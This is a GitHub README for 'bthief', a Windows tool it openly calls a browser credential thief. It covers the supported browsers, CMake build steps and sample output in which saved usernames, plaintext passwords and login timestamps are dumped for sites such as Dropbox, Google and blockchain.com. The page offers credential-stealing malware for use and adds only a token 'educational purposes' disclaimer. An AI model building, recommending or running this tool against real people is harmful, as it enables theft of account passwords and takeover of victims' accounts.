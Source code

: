 <div align="center">

# bthief

**A web browser credential thief for Windows.**

[![GitHub Workflow status](https://img.shields.io/github/actions/workflow/status/curlew/bthief/cmake.yml?logo=github&style=flat-square)](https://github.com/curlew/bthief/actions/workflows/cmake.yml)
[![Codacy grade](https://img.shields.io/codacy/grade/3b387ef9c9b842439e788913ad792943?logo=codacy&style=flat-square)](https://app.codacy.com/gh/curlew/bthief/dashboard)
[![Latest tag](https://img.shields.io/github/v/tag/curlew/bthief?color=informational&logo=github&style=flat-square)](https://github.com/curlew/bthief/tags)
[![License](https://img.shields.io/github/license/curlew/bthief?color=informational&style=flat-square)](https://github.com/curlew/bthief/blob/main/LICENSE)

</div>

## Overview

bthief is a web browser credential harvester that supports Chrome, Chromium, Opera, Brave, Edge, and Firefox.
The Chrome Beta and Canary versions are also supported.

It retrieves usernames and passwords, how many times a login has been used, and when it was created, last used, and last modified.

## Building
**Requirements**: Visual C++ Build Tools and CMake must be installed.

```
cmake -B build
cmake --build build --config Release
```

## Usage
```
PS C:\Users\User\bthief> .\build\Release\bthief.exe
[Chrome] FOUND:
  - https://login.blockchain.com
    - Username: [someone@example.com]
    - Password: [Password!]
    - Times used: 2
    - Created: 2022-02-21 17:26:10 UTC
    - Last used: 2022-02-21 17:26:07 UTC
    - Password last modified: 2022-02-21 17:26:10 UTC
[Chrome Beta] NOT FOUND
[Chrome Canary] NOT FOUND
[Chromium] NOT FOUND
[Edge] FOUND:
  - https://www.dropbox.com/login
    - Username: [username]
    - Password: [password321]
    - Times used: 4
    - Created: 2023-07-25 03:51:40 UTC
    - Last used: 2023-07-25 03:51:36 UTC
    - Password last modified: 2023-07-25 03:51:40 UTC
  - http://10.0.0.2
    - Username: [38476682]
    - Password: [123456]
    - Times used: 1
    - Created: 2023-04-12 20:16:49 UTC
    - Last used: never
    - Password last modified: 2023-04-12 20:16:49 UTC
[Brave] FOUND:
  - https://accounts.google.com/v3/signin/challenge/pwd
    - Username: [person@example.com]
    - Password: [password123]
    - Times used: 6
    - Created: 2024-01-28 23:43:18 UTC
    - Last used: 2024-01-28 23:43:13 UTC
    - Password last modified: 2024-01-28 23:43:18 UTC
[Opera] NOT FOUND
[Firefox] NOT FOUND
```

## Disclaimer
bthief is intended for educational purposes only. Do not use it illegally.

## Acknowledgements

### Contributors
- [@zedek1](https://github.com/zedek1)

### Dependencies
(These are handled automatically by CMake)
- [Windows Implementation Libraries](https://github.com/microsoft/wil)
- [nlohmann/json](https://github.com/nlohmann/json)
- [SQLite](https://www.sqlite.org/index.html)
